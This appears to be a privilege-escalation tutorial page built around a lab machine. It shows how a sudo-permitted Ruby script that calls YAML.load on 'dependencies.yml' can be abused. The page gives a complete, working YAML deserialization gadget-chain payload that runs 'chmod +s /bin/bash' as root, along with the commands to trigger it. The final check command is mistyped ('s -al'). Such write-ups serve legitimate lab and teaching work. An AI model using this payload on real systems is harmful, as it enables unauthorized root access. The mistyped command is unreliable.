 # Ruby Dependencies

When a user a allowed to run ruby dependencies.rb we can abuse it to escalate our privliges.

## i.e
```bash
$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb

```

Now if we take a look at **/opt/update_dependencies.rb**. You'll see on line 8
that theres a file that this script execute when it runs. So what we'll do is to
create such a file that escalate our privelges, with name **dependencies.yml**
```bash
henry@precious:~$ cat /opt/update_dependencies.rb 
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml")) #This file.
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end

```

## Using this script below we can escalate our privliges.
Make sure to name it right `dependencies.yml`  
```YML
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: "chmod +s /bin/bash"
         method_id: :resolve
```
Now run these commands below and you'll be root.
```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
```bash
s -al /bin/bash
```  
   
## How does the dependencies.yml script work.
The first object is an instance of the Ruby class Gem::Installer with a single instance variable i set to the value x.
The second object is an instance of the Ruby class Gem::SpecFetcher with a single instance variable i set to the value y.

The third object is an instance of the Ruby class Gem::Requirement. This object has a single key requirements that points to a complex nested object structure. The nested object structure starts with another instance of the Ruby class Gem::Package::TarReader. This object has a single key io that points to another instance of the Ruby class Net::BufferedIO. This object in turn has a single key io that points to another instance of the Ruby class Gem::Package::TarReader::Entry. This object has two keys: read set to 0 and header set to the string "abc".

Finally, the Net::BufferedIO object also has a key debug_output which points to another instance of the Ruby class Net::WriteAdapter. This object has two keys: socket which points to another instance of the Gem::RequestSet class, and method_id which is set to the symbol :resolve. The Gem::RequestSet instance also has two keys: sets which points to another instance of the Net::WriteAdapter class, and git_set which is set to the string "chmod +s /bin/bash".

